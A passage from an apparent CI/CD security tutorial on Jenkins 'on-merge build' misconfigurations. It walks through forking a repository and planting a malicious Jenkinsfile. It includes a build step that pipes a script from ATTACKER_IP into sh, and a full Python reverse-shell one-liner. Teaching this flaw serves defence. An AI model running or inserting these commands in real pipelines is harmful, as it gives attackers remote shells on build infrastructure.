 If multiple actions can trigger the build, we may want to use different build agents to execute them in different environments based on their sensitivity. For example, builds triggered by merge requests could run in an isolated environment to ensure they don’t affect the production pipeline.

---

### A Toxic Combination: On-Merge Builds

One common misconfiguration in CI/CD pipelines is the **On-Merge Build**. Let’s examine a situation where a developer has configured their pipeline to trigger builds on merge requests. This setup is quite common and is available in tools like Jenkins, which often enables it by default.

The problem arises when the **Jenkinsfile**, a CI/CD script executed by Jenkins, is not properly secured. Since Jenkins pulls the source code (including the Jenkinsfile) whenever a merge request is created, an attacker who can modify the code or the Jenkinsfile could potentially trigger the build agent to run malicious code. 

Let’s walk through an example of how an attacker might exploit this misconfiguration.

#### Exploiting a Jenkinsfile to Compromise the Build

To exploit this vulnerability, the attacker can first **fork** the target repository. This creates a copy of the original repository where the attacker can freely modify files. Here’s how they would proceed:

1. **Fork the Repository**: Navigate to the repository and fork it. Set the forked project as private and select the appropriate namespace.
   
2. **Modify the Jenkinsfile**: Once the repository is forked, the attacker can modify the Jenkinsfile to inject malicious commands, such as a reverse shell. The modified Jenkinsfile could look like this:

   ```groovy
   pipeline {
       agent any
       stages {
           stage('build') {
               steps {
                   sh '''
                       curl http://ATTACKER_IP:8080/shell.sh | sh
                   '''
               }
           }
       }
   }
   ```

3. **Create a Reverse Shell**: The attacker creates a `shell.sh` script that will execute a reverse shell when downloaded. The contents of `shell.sh` might look like this:

   ```bash
   /usr/bin/python3 -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("ATTACKER_IP",8081)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);'
   ```

